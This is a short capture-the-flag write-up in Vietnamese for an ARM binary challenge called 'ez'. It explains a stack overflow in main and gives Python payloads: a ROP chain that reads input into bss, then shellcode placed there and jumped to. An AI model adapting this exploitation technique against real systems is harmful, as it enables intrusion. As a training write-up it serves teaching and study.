 Đề cho ta file **ez** ARM</br>
![image](https://user-images.githubusercontent.com/23306492/40377949-5ffd91d4-5e1c-11e8-9387-96e85cce524d.png)</br>
disable toàn bộ</br>
![image](https://user-images.githubusercontent.com/23306492/40377995-7dfa49a2-5e1c-11e8-9bd7-c8fe8c856715.png)</br>
Hàm `main` ta thấy lỗi ở đây là stack overflow</br>
![image](https://user-images.githubusercontent.com/23306492/40378321-6b083c36-5e1d-11e8-8719-0709df31c667.png)
</br>
Với bài này ta cần ghi shellcode và jump về địa chỉ shellcode</br>
Trước tiên ta cần ROP để có thể input vào bss</br>
```
pop_r3_pc = 0x102f0
bss = 0x21028
main = 0x10421
payload = 'A'*20
payload += p32(bss)
payload += p32(pop_r3_pc)
payload += p32(bss)
payload += p32(main)
r.sendline(payload)
````
 Sau đó quay trở lại `mov  R1,R3`và input lại lần 2 để có thể jump đến shellcode_address</br>
![image](https://user-images.githubusercontent.com/23306492/40378386-966751e6-5e1d-11e8-873e-ce9ef22351b8.png)</br>
```
payload = 'A'*28
payload += p32(bss+0x20)
payload += shellcode
r.sendline(payload)
```
[payload](https://github.com/k4k4/UIT_Contest-2018/blob/master/ez/ez.py)</br>
![image](https://user-images.githubusercontent.com/23306492/40378289-4eece8d0-5e1d-11e8-8cef-2e473f5e03f5.png)
